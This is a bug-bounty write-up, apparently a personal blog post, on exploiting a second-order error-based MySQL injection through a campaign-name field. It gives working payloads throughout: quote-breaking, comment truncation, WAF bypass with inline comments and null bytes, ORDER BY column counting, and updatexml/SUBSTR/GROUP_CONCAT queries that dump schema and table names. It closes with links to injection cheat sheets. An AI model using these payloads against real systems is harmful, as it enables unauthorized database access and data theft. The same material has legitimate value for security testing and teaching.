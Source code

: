 ```yaml
---
title: Accidental second order error based sql injection
tags: sql
author: djxploit
show_author_profile: true
show_title: true
show_date: true
show_tags: true
full_width: false
header: false
footer: true
show_edit_on_github: false
show_subscribe: false
license: false
---
```


Hello everyone. 
So this issue was found on a program x. There was a feature to create campaigns for different purpose. 
I was originally looking for second order xss on the website, but inserting a single `double_quote(")` gave me a sql error (invalid syntax).
The original request is a POST based request, that was used for creating the campaign. Upon submitting the request, the request will generate a link for the
campaign , and you can access it. The POST data contain a field `campaign_name` , and that was the injection point. As this name was getting reflected in the
source code of the generated campaign, so I tried to see which characters are encoded(in an attempt for possible xss). And in that process, I inserted a single `double_quote(")`, and upon visting the generated link, it gave me a sql error. To confirm, I add another `double_quote(")` and the error was gone, and I received a 200 OK response status (On error it was giving me 500 status with the sql error). So this confimed that it is an error-based sql injection. The error message also revealed the structure of the sql query usec to retrieve the value of `campaign_name`:
 ```select name from campaign where name like "campaignx%"```
So my injection was in `campaignx`. BY looking at above query it is evident that injecting a single double quote would break the query, but 2 double quote won't break the query. Also I found that to remove or discard the remaining `%"` of the query, I could use comment , after my injected query. Upon trial and error, I found that `#` is working as a valid comment (indicating that the database may be mysql). So my injected query is like :
```select name from campaign where name like "entered campaign name"injected_data;#%"```
The semicolon is used to end the statements that are being used in the injection.

My next option was to extract data. First I tried to check what keywords are allowed. This is because, when I tried to add `and` or `or` keyword, it was blocked by
cloudflare WAF, giving me a 403 status code. So then I checked for `UNION`, luckily this was allowed. Similarly `ORDER by` was also allowed. But white spaces are
not allowed. So I tried various bypassses, and settled on sql inline comments `/**/`. So now I could use `UNION` to execute additional sql queries in the injected
point. So if I am going to use UNION, one thing to remeber is that the number of columns, the previous table has, should be equal to number of columns you are
accessing in your query. So if `campaign` table has 3 columns ,then we should also use 3 columns. So we could inject additional query as follows: 
```select name from campaign where name like "entered campaign name" UNION select 1,2,3;#%"```

But as we don't know the column number of the `campaign` table, we need to find that using the `ORDER BY` clause as follows :
```select name from campaign where name like "campaignx" ORDER BY 1;#```
If this returned no error, then we need to increase the `ORDER BY` number, unless we get an error. So for example, if `ORDER BY 5` gives an error, but `ORDER BY 4`
doesnot give an error, then we can conclude that the table `campaign` has 4 columns.

So now we could finally use the union statement. So I ran the follwoing query:
```select name from campaign where name like "entered campaign" UNION select 1,2,3,4;#```
This gave me 200 status error, meaning that the query executed without any error. So it is valid.
But the thing is none of the 1,2,3 or 4 is reflected in the response. So I could not find which column is reflecting in the output , so which one should I use for 
extracting information. But this was obivious, as this was error-based sql, so only when the query will return error, error will be displayed.

So searching for cheatsheets and resources, I found that error messages can also be used to extract information. And this is what I used. But out of many techniques, like convert(), duplicate select statements and updatexml(), only updatexml tends to work in my case. But updatexml also has a limitation, that it can only output 32 chars. But while trying the below query, I ran into a problem :
```"/**/UNION/**/select/**/updatexml(null,(@@version),null),NULL,NULL,NULL,NULL,NULL;#```
This returned only the last 3 chars of the version. 
Searching more about updatexml() , I found that I need to use concat() , in order to get the full 32 bytes. But soon I found that concat() is also blocked by WAF.
This time I took the challenge, and tried various methods for bypassing by following online resources. Soon I found that using `null byte (0x00)` , I could bypass the WAF. And by null byte, I mean while sending the POST request, edit the request in hex editor(burp suite also provide) and add a null byte(00) between the concat keyword. So the query seems like :
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(@@version)),null),NULL,NULL,NULL,NULL,NULL;#```
And this gave me the full version, as the size of the string was below 32 bytes.

So now I can use this to retrieve other information. 
Database names can be retrieved by : `select schema_name from information_schema.schemata`
Table name of current database : `select table_name from information_schema.tables where table_schema=database()`
Column name of a table : `select column_name from information_schema.columns where table_name="mytablename"`

But the problem occured, when I tried to implement it.
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(select schema_name from information_schema.schemata/**/LIMIT/**/0,1)),null),NULL,NULL,NULL,NULL,NULL;#```
This gave me the 1st database_name. To get the second one I simply need to increase the LIMIT from 0,1 to 1,1 and so on.
But what if the 1st database_name is greater than 32 bytes (that would not be the case for database names generally, but would be the case for the records like email,password). So in that case I would only be able to retrieve the 1st 32 bytes and the rest would simply be truncated.

So again googling for this situation, I found a stackoverflow thread, that gives a hint towards this situation. So the solution is I need to use SUBSTR.
Query would be : 
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),1,32)),null),NULL,NULL,NULL,NULL,NULL;#```
This would retrieve the 1st 32 byte of the 1st database name, and to get the remaining part of 1st database name (if there is any), we just need to increase the SUBSTR location number from 1 to 32 like :
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),32,32)),null),NULL,NULL,NULL,NULL,NULL;#```
and so on.
Now this query can be used to retrieve the database names. But there is extra query that is being used. For example, if the database name is less than 32 bytes, but if we are still calling the 2nd query to look for 2nd 32 bytes also, then that query is just wastage of time.
Also if the name is more than 64 bytes, we would need 3 queries to get the full database name. But as we don't know the total length of the database name, we would simply issue 2 queries or a preprogrammed number of queries, and so that would mean wastage of query or loss of data.
So searching for this , I again found a solution on internet. This solution looks like as follows :
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((SELECT/**/CAST(GROUP_CONCAT(table_name,0x0a)/**/as/**/CHAR(4096))/**/FROM/**/(SELECT/**/*/**/FROM/**/information_schema.tables/**/where/**/table_schema=database())a),1051,32)),null),1,1,1,1,1;#```
So this query would first retrieve all the table names ,and then it would join them using the concat(), and then using cast() function it would convert the result to character type, and then finally using substr() , we could get them one by one , at 32 bytes per query.
This is highly optimized, removes the overhead of changing limits to get different tables, also no wastage of query.

Finally I rerieved all database information. 


Resources used :
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi
https://security.stackexchange.com/questions/121204/dumping-custom-query-via-sql-injection-when-output-is-in-the-die-function
http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html
https://websec.ca/kb/sql_injection
https://rafaybaloch.com/2017/06/error-based-sql-injection-tricks-in.html
https://www.exploit-db.com/papers/13650
https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
https://www.programmersought.com/article/29625825274/
https://incogbyte.github.io/hacking/2020/12/12/sqli-bypass-techs.html
https://medium.com/@hninja049/advance-sql-injection-bypass-waf-10c50fdbb80d
https://www.sqlinjection.net/time-based/
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec
https://www.exploit-db.com/docs/english/14475-sql-injection-tutorial.pdf
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://www.programmersought.com/article/48964149849/
